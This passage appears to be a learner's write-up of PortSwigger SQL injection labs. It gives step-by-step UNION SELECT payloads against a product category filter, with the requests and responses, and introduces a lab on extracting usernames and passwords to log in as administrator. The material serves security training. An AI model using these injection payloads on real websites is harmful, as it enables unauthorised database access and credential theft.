 The lab will provide a random value that you need to make appear within the query results. 

To solve  the lab, perform an SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data. 

**required::** Make the database retrieve the string: 'g0cl1S'

after finding unmber of columns (see previous lab):
```
GET /filter?category=Gifts'+UNION+SELECT+NULL,+NULL,+NULL+FROM+information_schema.tables--+ HTTP/1.1
```

we replace NULL value with random string provided: 'g0cl1S'

**request1**:
```
GET /filter?category=Gifts'+UNION+SELECT+'g0cl1S',+NULL,+NULL+FROM+information_schema.tables--+ HTTP/1.1
```
response:
```
HTTP/1.1 500 Internal Server Error
```

**request2**:
```GET /filter?category=Gifts'+UNION+SELECT+NULL,+'g0cl1S',+NULL+FROM+information_schema.tables--+ HTTP/1.1
```
response:
```
HTTP/1.1 200 OK
```
***(Lab solved!)***

only the second value reflect the string we entered - we know it supports string value and can be used to exfiltrate information. the other two cant be used for string value.

**final PayLoad**
```
'+UNION+SELECT+NULL,'g0cl1S',NULL--+-
```
#
# [***3. SQL injection UNION attack, retrieving data from other tables***](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs. 

The database contains a different *table* called **users**, with *columns* called **username** and **password**. 

To solve the lab, perform an SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user. 

